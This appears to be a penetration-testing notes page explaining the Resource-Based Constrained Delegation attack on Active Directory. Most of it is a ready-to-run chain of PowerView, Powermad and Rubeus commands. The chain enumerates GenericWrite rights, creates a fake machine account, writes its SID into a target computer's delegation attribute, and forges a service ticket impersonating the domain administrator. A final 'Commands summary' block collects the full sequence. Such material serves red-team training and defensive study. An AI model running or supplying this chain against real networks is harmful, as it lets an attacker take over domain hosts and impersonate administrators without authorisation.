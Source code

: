 # Resource Based Constrained Delegation (RBCD)

## Resource Based Constrained Delegation (RBCD)

RBCD needs to happen from a computer account or a service account with a SPN.\
\
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.\
\
\
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service\
\
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.\
\
&#x20;→ SeEnableDelegationPrivilege permissions are not required\
&#x20;→ RBCD can typically be configured by the backend service administrator instead\
&#x20;→ the frontend service must have an SPN set in the domain > Computer Account\
\
\
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.\
\
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path**&#x20;

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  (user can add up to 10 computers by default)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :\
\
\- Constrained Delegation = SPN on the frontend service (msDSAllowedToDelegateTo propriety)\
\- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](<../../../../.gitbook/assets/image (105).png>)

#### Computer Domain Join&#x20;

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](<../../../../.gitbook/assets/image (142).png>)

### Create a new machine account

#### Load powermad

```csharp
. .\powermad.ps1
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](<../../../../.gitbook/assets/image (293).png>)

![](<../../../../.gitbook/assets/image (5) (1).png>)

`msDS-AllowedToActOnBehalfOfOtherIdentity` property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer -Properties objectsid | Select -Expand objectsid
```

![](<../../../../.gitbook/assets/image (257) (1).png>)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](<../../../../.gitbook/assets/image (102).png>)

* convert it into a byte array to match the format for the `msDS-AllowedToActOnBehalfOfOtherIdentity` property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

```
Get-DomainComputer -Identity file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
$RBCD  = Get-DomainComputer file05 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
$Descriptor.DiscretionaryAcl
```

![](<../../../../.gitbook/assets/image (118).png>)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](<../../../../.gitbook/assets/image (246).png>)

### &#x20;Commands summary

```csharp
New-MachineAccount -MachineAccount polo1 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-DomainComputer -Identity polo1
$sid =Get-DomainComputer -Identity polo1 -Properties objectsid |Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity TARGETSERVER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$RBCDbytes = Get-DomainComputer polo1 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
```

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}





